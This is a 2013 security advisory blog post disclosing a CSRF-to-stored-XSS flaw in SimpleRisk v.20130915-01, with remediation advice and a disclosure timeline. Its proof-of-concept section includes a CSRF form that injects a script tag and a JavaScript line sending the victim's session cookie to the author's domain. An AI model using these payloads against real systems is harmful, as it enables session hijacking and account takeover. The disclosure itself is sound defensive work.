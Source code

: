 ```yaml
---
layout: post
status: publish
published: true
title: SimpleRisk v.20130915-01 CSRF-XSS Account Compromise
author:
  display_name: ethicalhack3r
  login: ethicalhack3r
  email: ryandewhurst@gmail.com
  url: ''
author_login: ethicalhack3r
author_email: ryandewhurst@gmail.com
excerpt: "1. *Advisory Information*\r\n\r\nTitle: SimpleRisk v.20130915-01 CSRF-XSS
  Account Compromise\r\nAdvisory ID: RS-2013-0001\r\nDate Published: 2013-09-30\r\n\r\n2.
  *Vulnerability Information*\r\n\r\nType: Cross-Site Request Forgery (CSRF) [CWE-352,
  OWASP-A8], Cross-Site Scripting (XSS) [CWE-79, OWASP-A3]\r\nImpact: Full Account
  Compromise\r\nRemotely Exploitable: Yes\r\nLocally Exploitable: Yes\r\nSeverity:
  High\r\nCVE-ID: CVE-2013-5748 (CSRF) and CVE-2013-5749 (non-httponly cookie)\r\n\r\n3.
  *Software Description*\r\n\r\nSimpleRisk a simple and free tool to perform risk
  management activities. Based entirely on open source technologies and sporting a
  Mozilla Public License 2.0, a SimpleRisk instance can be stood up in minutes and
  instantly provides the security professional with the ability to submit risks, plan
  mitigations, facilitate management reviews, prioritize for project planning, and
  track regular reviews. It is highly configurable and includes dynamic reporting
  and the ability to tweak risk formulas on the fly. It is under active development
  with new features being added all the time. SimpleRisk is truly Enterprise Risk
  Management simplified. [0]\r\n\r\nHomepage: <a href=\"http://www.simplerisk.org/\">http://www.simplerisk.org/</a>\r\nDownload:
  <a href=\"https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz\">https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz</a>\r\n\r\n"
wordpress_id: 17200
wordpress_url: http://www.ethicalhack3r.co.uk/?p=17200
date: '2013-09-30 22:15:12 +0100'
date_gmt: '2013-09-30 21:15:12 +0100'
---
```

<p>1. *Advisory Information*</p>
<p>Title: SimpleRisk v.20130915-01 CSRF-XSS Account Compromise<br />
Advisory ID: RS-2013-0001<br />
Date Published: 2013-09-30</p>
<p>2. *Vulnerability Information*</p>
<p>Type: Cross-Site Request Forgery (CSRF) [CWE-352, OWASP-A8], Cross-Site Scripting (XSS) [CWE-79, OWASP-A3]<br />
Impact: Full Account Compromise<br />
Remotely Exploitable: Yes<br />
Locally Exploitable: Yes<br />
Severity: High<br />
CVE-ID: CVE-2013-5748 (CSRF) and CVE-2013-5749 (non-httponly cookie)</p>
<p>3. *Software Description*</p>
<p>SimpleRisk a simple and free tool to perform risk management activities. Based entirely on open source technologies and sporting a Mozilla Public License 2.0, a SimpleRisk instance can be stood up in minutes and instantly provides the security professional with the ability to submit risks, plan mitigations, facilitate management reviews, prioritize for project planning, and track regular reviews. It is highly configurable and includes dynamic reporting and the ability to tweak risk formulas on the fly. It is under active development with new features being added all the time. SimpleRisk is truly Enterprise Risk Management simplified. [0]</p>
<p>Homepage: <a href="http://www.simplerisk.org/">http://www.simplerisk.org/</a><br />
Download: <a href="https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz">https://simplerisk.googlecode.com/files/simplerisk-20130915-001.tgz</a></p>
<p><a id="more"></a><a id="more-17200"></a></p>
<p>4. *Vulnerability Description*</p>
<p>Cross-Site Request Forgery (CSRF) and Stored Cross-Site Scripting (XSS) have been discovered within SimpleRisk version 20130915-01 leading to complete account compromise. The CSRF vulnerability is used to deliver the XSS payload which accesses the authenticated user's session cookies and transmits them to a third-party domain under the attacker's control. Once the attacker has the user's session cookie, the attacker can authenticate to the application as the user.</p>
<p>5. *Vulnerable Packages*</p>
<p>Only version 20130915-01 was tested which was the latest version at the time of writing.</p>
<p>6. *Vendor Information, Solutions and Workarounds*</p>
<p>SimpleRisk released version 20130916-001 to address the issue.</p>
<p>7. *Credits*</p>
<p>These vulnerabilities were discovered by Ryan Dewhurst - <a href="http://www.randomstorm.com/">http://www.randomstorm.com/</a> - <a href="http://www.dewhurstsecurity.com/">http://www.dewhurstsecurity.com/</a></p>
<p>8. *Proof of Concept (PoC)*</p>
<p>8.1 *Cross-Site Request Forgery (CSRF)*</p>
<p>The following CSRF PoC submits a POST request to the prioritize_planning.php page with the XSS payload within the new_project parameter.</p>
<p>{% highlight html %}
  <html>
  <body>
    <form action="http://127.0.0.1/simplerisk/management/prioritize_planning.php" method="POST">
      <input type="hidden" name="new&#95;project" value="&lt;script&#32;src&#61;&#47;&#47;ethicalhack3r&#46;co&#46;uk&#47;files&#47;xss&#47;c&#46;j&gt;&lt;&#47;script&gt;" />
      <input type="hidden" name="add&#95;project" value="Add" />
      <input type="hidden" name="projects" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
{% endhighlight %}</p>
<p>8.2 *Stored Cross-Site Scripting (XSS)*</p>
<p>The prioritize_planning.php page accepts user supplied input via the new_project POST parameter and then later outputs that data to the page without first being sanitised or encoded. The following code was used to inject JavaScript into the application's back-end database.</p>
<p>Payload: &lt;script src=//ethicalhack3r.co.uk/files/xss/c.j&gt;&lt;/script&gt;<br />
Method: POST<br />
Parameter: new_project</p>
<p>The c.j JavaScript file contained the following code which sends the user's authenticated session cookie to a third-party domain:</p>
<p>document.write('&lt;img src=//ethicalhack3r.co.uk/srx=' + document.cookie + '&gt;');</p>
<p>9. *Remediation*</p>
<p>9.1 *Cross-Site Request Forgery (CSRF)*</p>
<p>Set per page anti-csrf tokens (nonces) which are submitted with requests and then validated by the server. Please refer to OWASP's CSRF Prevention Cheat Sheet for further information. [1]</p>
<p>9.2 *Cross-Site Scripting (XSS)*</p>
<p>Properly sanitise and encode user supplied input and output. Please refer to OWASP's XSS Prevention Cheat Sheet for further information. [2]</p>
<p>9.3 *Other Recommendations*</p>
<p>. Add the httponly flag to the session cookie so that JavaScript's document.cookie can not access it. [3]<br />
. Set the Content Security Policy (CSP) header to whitelist where JavaScript is allowed to be loaded from. [4]<br />
. Set the X-XSS-Protection header to ensure the browser's XSS filtering is enabled. (only works for reflected XSS) [5]</p>
<p>10. *Report Timeline*</p>
<p>2013-09-16: SimpleRisk notified of issue.<br />
2013-09-16: SimpleRisk acknoledged issue.<br />
2013-09-16: SimpleRisk release new version.<br />
2013-09-30: Advisory released.</p>
<p>11. *References*</p>
<p>[0] <a href="http://www.simplerisk.org/">http://www.simplerisk.org/</a><br />
[1] <a href="https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet">https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet</a><br />
[2] <a href="https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet">https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet</a><br />
[3] <a href="https://www.owasp.org/index.php/HttpOnly">https://www.owasp.org/index.php/HttpOnly</a><br />
[4] <a href="https://www.owasp.org/index.php/Content_Security_Policy">https://www.owasp.org/index.php/Content_Security_Policy</a><br />
[5] <a href="https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet#X-XSS-Protection">https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet#X-XSS-Protection</a><br />
[6] <a href="http://www.randomstorm.com/">http://www.randomstorm.com/</a><br />
[7] <a href="http://www.dewhurstsecurity.com/">http://www.dewhurstsecurity.com/</a></p>
